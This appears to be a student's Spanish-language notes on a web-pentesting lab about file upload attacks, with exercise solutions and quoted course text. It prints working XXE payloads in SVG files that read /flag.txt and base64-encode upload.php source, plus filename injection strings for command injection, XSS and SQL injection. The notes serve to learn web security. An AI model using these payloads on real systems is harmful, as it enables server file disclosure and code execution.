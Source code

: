 For more information, refer to the Cross-Site Scripting (XSS) and Web Attacks modules.

ejercicio7
   The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"
      Para este ejercicio hay que usar el xxe atack
      
      ```
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
         <svg>
             <text>&xxe;</text>
         </svg>
      ```
Yo he usado este codigo que escribe lo que pides por pantalla

Ejercicio8
   Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)
      Este ejercicio tendremos que suar este codigo
      
      ```
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
      <svg>&xxe;</svg>
      ```

y luego desde burpsuite deberemos decodear lo que nos sale y saldra la ruta dicha

---

# Other Upload Attacks

In addition to arbitrary file uploads and limited file upload attacks, there are a few other techniques and attacks worth mentioning, as they may become handy in some web penetration tests or bug bounty tests. Let's discuss some of these techniques and when we may use them.

## Injections in File Name

A common file upload attack uses a malicious string for the uploaded file name, which may get executed or processed if the uploaded file name is displayed (i.e., reflected) on the page. 

### Examples:

1. **Command Injection**:
   - Naming a file `file$(whoami).jpg`, `file\`whoami\`.jpg`, or `file.jpg||whoami`.
   - If the web application uses an OS command to move the uploaded file (e.g., `mv file /tmp`), the `whoami` command gets executed, leading to remote code execution.

2. **XSS Payload**:
   - Using a file name like `<script>alert(window.origin);</script>`.
   - This would execute the script if the file name is displayed on the target's machine.

3. **SQL Injection**:
   - Injecting an SQL query in the file name, e.g., `file';select+sleep(5);--.jpg`.
   - This could lead to SQL injection if the file name is insecurely used in an SQL query.
